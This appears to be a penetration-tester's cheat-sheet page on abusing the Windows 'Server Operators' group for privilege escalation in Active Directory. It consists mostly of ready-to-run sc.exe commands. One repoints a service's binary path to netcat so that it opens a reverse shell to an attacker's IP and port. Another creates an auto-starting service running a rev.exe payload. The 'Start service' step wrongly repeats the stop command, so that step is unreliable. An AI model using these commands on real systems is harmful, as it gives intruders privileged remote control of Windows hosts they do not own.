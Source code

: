 ```yaml
---
title: "Server Operators"
date: 2024-7-13
tags: ["Server Operators", "Active Directory", "Windows", "Privilege Escalation", "Service", "Reverse Shell"]
---
```


### Abuse #1: Change service path

#### 1. Change service path

```console
# Assume nc.exe is uploaded
sc.exe config <SERVICE> binPath= "C:\ProgramData\nc.exe -e cmd.exe <LOCAL_IP> <LOCAL_PORT>"
```

#### 2. Restart service

```console
# Stop service
sc.exe stop <SERVICE>
```

```console
# Start service
sc.exe stop <SERVICE>
```

### Additional: Create service

```console
# Create a service
sc.exe create <NEW_SERVICE> binpath= C:\ProgramData\rev.exe start= auto
```

<small>*Note: there is a space after named arguments*</small>